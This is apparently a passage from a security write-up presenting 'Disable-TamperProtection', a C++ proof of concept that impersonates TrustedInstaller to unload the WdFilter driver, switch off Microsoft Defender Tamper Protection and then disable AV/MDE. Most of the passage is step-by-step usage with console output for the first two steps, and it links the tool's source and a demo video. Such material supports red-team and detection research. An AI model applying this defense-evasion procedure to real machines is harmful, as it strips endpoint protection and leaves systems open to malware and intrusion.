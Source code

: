 A POC has been included, written in C++ called Disable-TamperProtection can be found on GitHub here: https://github.com/m3rcer/Disable-TamperProtection

*NOTE: VC_redist.x64.exe could be required on the target.*

Required elevated privileges to perform the attack have been incorporated in the POC by borrowing Code from the [superUser](https://github.com/mspaintmsi/superUser) project codebase for TrustedInstaller privilege impersonation. 

POC Demo: <https://www.youtube.com/watch?v=aGTrjDxMSdU>

The POC works in 3 steps:

```
C:\Users\User\Desktop> .\Disable-TamperProtection.exe
Sequential Usage: 1 --> 2 --> 3
1:      Unload WdFilter
2:      Disable Tamper Protection
3:      Disable AV/MDE
```

An example, to use this POC is as follows:

1. Unload WdFilter:

```
C:\Users\User\Desktop> .\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key Value: (null)
[+] Trusted Installer handle: 0000000000000120
[!] Spawning registry with TrustedInstaller privileges to delete WdFilter "Altitude" regkey.
[+] Created process ID: 4192 and assigned additional token privileges.
[+] Execute option 1 to validate!

C:\Users\User\Desktop>.\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Enumerating WdFilter information:
        Next:   0 | Frame ID:   0 | No. of Instances:   4 | Name:        wdfilter | Altitude:          328010
[+] Restart the system or wait a few minutes for WdFilter to unload.
[+] Execute option 1 to validate!

# Restart or wait a few minutes for WdFilter to automatically unload
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] WDFilter has been successfully unloaded, use option 2 to disable Tamper Protection.
```

2. Disable Tamper Protection:

```
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 2
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Trusted Installer handle: 00000000000000C4
[!] Spawning registry with TrustedInstaller privileges to alter Defender "TamperProtection" regkey from 5 to 4.
[+] Created process ID: 7748 and assigned additional token privileges.
[+] Use option '3' to finally Disable AV/MDE.
```
